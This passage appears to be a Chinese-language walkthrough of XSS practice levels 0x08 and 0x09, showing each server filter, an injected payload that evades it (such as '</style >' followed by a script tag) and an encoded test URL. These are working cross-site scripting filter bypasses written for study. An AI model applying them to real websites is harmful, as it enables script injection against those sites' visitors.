 - URL

```url
http://xss.test/?input=%3Cimg%20src%3D%23%20onerror%3Dalert(1)%20
```

## 0x08

- server 源码

过滤 </style> 标签，</style > 加空格即可绕过

```php
function render (src) {
  src = src.replace(/<\/style>/ig, '/* \u574F\u4EBA */')
  return `
    <style>
      ${src}
    </style>
  `
}
```

- 插入代码

```html
</style > <script>alert(1)</script>
```

- 网页代码

```html
<style>
      </style > <script>alert(1)</script>
    </style>
```

- URL

```url
http://xss.test/?input=%3C%2Fstyle%20%3E%20%3Cscript%3Ealert(1)%3C%2Fscript%3E
```

## 0x09

- server 源码

过滤了不是以https://www.sogmentfault.com开头的字符串，以https://www.sogmentfault.com开头，闭合标签即可

```php
function render (input) {
  let domainRe = /^https?:\/\/www\.segmentfault\.com/
  if (domainRe.test(input)) {
    return `<script src="${input}"></script>`
  }
  return 'Invalid URL'
}
```
